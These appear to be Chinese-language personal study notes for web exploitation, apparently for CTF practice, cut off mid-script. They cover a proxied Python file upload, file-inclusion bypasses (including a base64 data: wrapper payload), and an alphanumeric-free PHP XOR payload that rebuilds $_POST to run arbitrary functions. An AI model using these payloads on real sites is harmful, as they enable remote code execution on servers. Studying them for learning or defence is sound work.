 
## python文件上传

```python
import requests
proxies={'http':'http://127.0.0.1:8081','https':'https://127.0.0.1:8081'}

file_path="C:\\Users\\20925\\Desktop\\upload\\a.go"
file={
    "file":open(file_path,"rb")
}
data={
    "user":"admin"
}
requests.post("http://127.0.0.1",files=file,data=data,proxies=proxies)
```

## 文件包含
后缀绕过
远程文件包含url+?或者#

前缀绕过
compress.zlib://data:text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b

远程文件包含绕过allow_url
开启smb服务器

## oracle注入
`C:\Users\20925\Desktop\study\attachment\Oracle数据库注入全方位利用 - 先知社区.mhtml`
## php反序列化
`C:\Users\20925\Desktop\study\RT\php反序列化总结 - lewiserii's blog.mhtml`
## 代码注入
无字母数字

异或
```php
$__=("#"^"|"); // _
$__.=("."^"~"); // _P
$__.=("/"^"`"); // _PO
$__.=("|"^"/"); // _POS
$__.=("{"^"/"); // _POST 
$$__[_]($$__[__]); // $_POST[_]($_POST[__]);


//一行
$__=("#"^"|");$__.=("."^"~");$__.=("/"^"`");$__.=("|"^"/");$__.=("{"^"/");$$__[_]($$__[__]);
```

脚本
```php
<?php

/*author yu22x*/

$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) { 
	for ($j=0; $j <256 ; $j++) { 

		if($i<16){
			$hex_i='0'.dechex($i);
		}
		else{
```